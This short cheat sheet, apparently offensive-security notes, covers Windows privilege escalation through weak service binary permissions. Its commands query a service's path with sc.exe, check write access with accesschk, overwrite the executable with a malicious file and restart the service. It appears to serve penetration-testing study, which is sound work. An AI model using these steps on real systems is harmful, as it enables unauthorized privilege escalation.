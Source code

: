 First, check the owner and get the path:
```
sc.exe qc SERVICE_NAME
```

Then, check permissions:
```
accesschk.exe /accepteula -quvw SERVICE_PATH
```

If you have `FILE_ALL_ACCESS`, it is exploitable.
Overwrite the executable to exploit:
```
copy MALICIOUS_FULL_PATH ORIGINAL_FULL_PATH
```

Restart the service:
```
net stop SERVICE
net start SERVICE
// OR
sc.exe stop SERVICE
sc.exe start SERVICE
```
Note: if `net start`/`net stop` cannot be called, reboot the system.
